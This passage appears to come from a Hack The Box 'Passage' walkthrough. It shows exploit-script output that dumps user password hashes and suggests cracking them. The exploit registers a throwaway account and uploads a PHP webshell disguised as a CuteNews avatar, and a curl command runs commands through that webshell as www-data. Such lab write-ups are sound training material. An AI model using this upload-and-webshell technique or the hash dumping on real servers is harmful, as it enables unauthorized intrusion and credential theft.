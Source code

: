 ```sh
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: SNrW4kPF09 and password: SNrW4kPF09

=======================================================
Sending Payload
=======================================================
signature_key: 0be16f88e337e48629763f1ef1c250e2-SNrW4kPF09
signature_dsi: 23c890e581e6a65b8cbf13da619d6f4a
logged in user: SNrW4kPF09
============================
Dropping to a SHELL
============================

command > whoami
www-data
```

At this point the webshell has been uploaded, and I could use the webshell directly instead of the script. In this output we see what the logged_user variable is: "SNrW4kPF09". The following line in the python script shows the location of the webshell.



```sh
        output = sess.post(f"{ip}/CuteNews/uploads/avatar_{logged_user}_{logged_user}.php", data=postdata)

```



Using curl I can access the webshell outside of the python script. I was just showing this as an example, I will be using this python script for the rest.

```sh
kali@kali-[~/boxes/htb/passage]$curl -i http://passage.htb/CuteNews/uploads/avatar_SNrW4kPF09_SNrW4kPF09.php -X POST -d "cmd=whoami"
HTTP/1.1 200 OK
Date: Mon, 03 Jan 2022 20:47:27 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 15
Content-Type: text/html; charset=UTF-8

GIF8;
www-data
```
